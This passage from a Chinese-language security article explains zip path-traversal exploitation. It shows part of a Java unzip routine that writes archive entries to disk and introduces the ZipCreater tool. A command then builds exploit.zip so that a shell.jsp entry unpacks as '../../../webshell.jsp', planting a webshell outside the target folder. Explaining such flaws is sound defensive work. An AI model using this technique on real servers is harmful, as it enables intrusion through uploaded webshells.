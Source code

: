```java
                FileOutputStream fos = new FileOutputStream(f);  
                int length = 0;  
                byte[] b = new byte[1024];  
                while((length=is.read(b, 0, 1024))!=-1) {  
                    fos.write(b, 0, length);  
                }  
                is.close();  
                fos.close();  
            }  
        }  
          
        if (zipFile != null) {  
            zipFile.close();  
        }  
          
        if(deleteFile) {  
            file.deleteOnExit();  
        }  
    }  
```

[ZipCreater](https://github.com/Rvn0xsy/zipcreater)主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

假设/tmp/payload文件夹内的文件列表如下：

```java
zipEntry.getName() =>1.txt
zipEntry.getName() =>2.txt
zipEntry.getName() =>shell.jsp
```

使用ZipCreater可以生成跨目录的文件名：

```bash
$ zipcreater -source /tmp/payload/ -dest /tmp/exploit.zip -filename shell.jsp -path ../../../webshell.jsp'
```

exploit.zip内容如下：

```java
zipEntry.getName() => 1.txt
zipEntry.getName() => 2.txt
zipEntry.getName() => ../../../webshell.jsp
```


